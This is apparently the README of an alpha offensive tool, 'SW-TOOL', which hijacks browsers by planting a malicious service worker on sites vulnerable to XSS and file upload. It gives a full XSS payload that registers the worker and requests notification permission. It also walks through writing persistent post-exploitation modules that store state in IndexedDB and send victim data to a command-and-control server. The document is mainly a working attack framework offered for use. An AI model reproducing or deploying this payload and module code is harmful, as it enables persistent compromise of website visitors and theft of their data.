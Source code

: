 # Welcome to SW-TOOL

## Info
This is just a alpha version. The proxying functions by and large is working fine. 
To setup:
1. run start.sh to:
	- startup the proxy on port 8888. Point your browser proxy to that
	- C2 Controller is listening on port 5000. This is the C@ service the SW communicates with
2. Find a vulnerable website with  XSS + fileupload
   - Upload C2_HOST/modules/sw.js
   - Use XSS to install the SW payload. Use either C2_HOST/modules/xss generater payload. For example, the payload would be:

```
navigator.serviceWorker.register('/PATH_TO_SW.js').then(function(s){
	setTimeout(function(){s.sync.register('outbox');s.sync.register('outbox2');s.sync.register('outbox3');s.sync.register('outbox4');Notification.requestPermission().then(function(){s.active.postMessage({'p':'1'})});}, 100);
});
```

To create a custom post-exploitation module:
1. Create a JS with the MODULE_FILENAME.js under: `app/templates/modules`
2. If you plan to use IndexedDB to save current status or for whatever reasons, you will need to wake up the DB with:
```
WriteIDB("MODULE_NAME_init", 1);
```
3. You then need to register the module within the main SW on the victim. In this way, if the SW goes inactive and wakes up again, the module will resume execution:
```
registerModule('MODULE_NAME');
```
4. If you need to read previous saved data in IndexedDB, use the following:
```
var MODULE_NAME_data;
new Promise((res, rej) => {
  ReadIDB("MODULE_NAME", rej);
}).catch(function(p){
  if(p == undefined){
    MODULE_NAME_data = 1; // DEFAULT value
  }else{
    MODULE_NAME_data = p; // previous value
  }
});
```
5. After the initialisation, define your module logic:
```
function MODULE_NAME_Logic(){
	// do stuff....
}
MODULE_NAME_Logic();   // if you need to read data from IndexedDB first, call this in the IDB Promise catch section after querying the value(s)
```
6. You can use the module API `sendModuleResultToC2` to send data to the C2:
```
sendModuleResultToC2('MODULE_NAME', `data_from_module`);
```
7. At the end, you will need to deregister the module from the main SW. This will ensure that if the SW wakes up again, the module will not run a second time.
```
function MODULE_NAME_Logic(){
	// do stuff....
	deregisterModule('MODULE_NAME');
}
```
8. Note that all the global variable names need to be prefixed with your module name. Your module logic will end up being included as part of the main SW, so variables could conflict.
9. As a starting point for your module please refer to a module template under `app/templates/modules/template.js`.
10. Any results you send from the module will end up being visible on the dashboard under the agent that ran it.
11. If you want to run the module again after it has already been executed, you can delete the module against the agent on the dashboard and execute it again.

## License

This tool is released under the [MIT License](https://opensource.org/licenses/MIT).